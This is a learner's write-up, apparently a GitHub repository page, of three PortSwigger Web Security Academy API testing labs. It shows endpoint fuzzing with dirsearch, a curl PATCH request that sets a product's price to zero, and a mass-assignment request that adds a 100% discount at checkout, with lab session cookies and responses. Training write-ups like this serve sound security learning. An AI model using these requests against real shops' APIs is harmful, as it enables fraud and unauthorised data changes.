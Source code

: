 # API Testing
## Summary
- Lab 01: Exploiting an API endpoint using documentation
- Lab 02: Finding and exploiting an unused API endpoint
- Lab 03: Exploiting a mass assignment vulnerability
## Lab 01: Exploiting an API endpoint using documentation
- If we tried to discover the attack service of the application, we will find an `/api` path that indicate the application is using an api in its functionalities.
![fuffAPI1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/fuffAPI1.png)

- If we access this path, we will find the `API documentation` disclosed for all the endpoints that the API uses.
![docsAPI.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/docsAPI.png)

- So now we can delete the `carlos` user:
![deleteuser 1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/deleteuser%201.png)

------
## Lab 02: Finding and exploiting an unused API endpoint
- I tried fuzzing again but there is not something interested.
```sh
$ dirsearch -u https://0a6300f004fb6b8e80aba8eb00100062.web-security-academy.net -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/api/objects.txt

Target: https://0a6300f004fb6b8e80aba8eb00100062.web-security-academy.net/

[10:37:53] Starting:                                                                               
[10:38:05] 200 -  901B  - /cart                                             
[10:38:16] 200 -    2KB - /favicon.ico                                      
[10:38:16] 200 -    2KB - /filter                                           
[10:38:27] 200 -    1KB - /Login                                            
[10:38:27] 200 -    1KB - /login                                            
[10:38:27] 302 -    0B  - /logout  ->  /                                    
[10:38:36] 400 -   50B  - /product                                          
   
Task Completed 
```

- I have gone to complete by walking through the source code for the application and, i found a path for javascript code locating in this path `resources/js/api/productPrice.js`
![sourcecode.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/sourcecode.png)

- In the `productPrice.js` file, i have found an endpoint for the API:
![js_code.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/js_code.png)

- We can try to access this endpoint and see the response for that:
![jacket1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/jacket1.png)

- So why not trying to change the request method into `PATch` method to modify the jacket price:
![contentType.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/contentType.png)
- OK, it needs the `Content-Type` header as `application/json` data type.
- The final form for the request will look like that:
```sh
$ curl -X PATCH -H "Cookie: session=on9pyVzZ5fUoHRFB0UFLbupX42XMRDpO" -H "Content-Type: application/json" https://0add00a2035d20b782d1019500910019.web-security-academy.net/api/products/1/price -d '{"price":00,"message":"ayhaga"}' | jq
```

![curl final exploit.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/curl%20final%20exploit.png)

- We have changed the price jacket into `$0.00`, We can buy that now in free.
![free.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/free.png)

----
## Lab 03 : Exploiting a mass assignment vulnerability
- During testing the functionality of the application, i detected an `API` endpoint for the checkout function `/api/checkout`.
- When placing the order, the API makes two requests, one of the with `GET` request method to get the items informmation:
![[checkout.png]]

- The second request is made by using the `POST` request method to create the order, but it sends `INSUFFICIENT_FUNDS` error because i don't have enough cash to place the order.
![[createorder.png]]

- So we can make a little bit of changes to the request by adding the `chosen_discount` parameter to make a discount for my order 100 percent.
```sh
$ curl -i -X POST -H "Cookie:session=5lsFt4KJSfBlSTqXbQbAycD2ZqfyYjYM" https://0a2b009703e577ab852245b9006000b8.web-security-academy.net/api/checkout -d '{
"chosen_discount": {
    "percentage": 100
  },"chosen_products":[{"product_id":"1","quantity":1}]}'

HTTP/2 201 
location: /cart/order-confirmation?order-confirmed=true
x-frame-options: SAMEORIGIN
content-length: 0
```
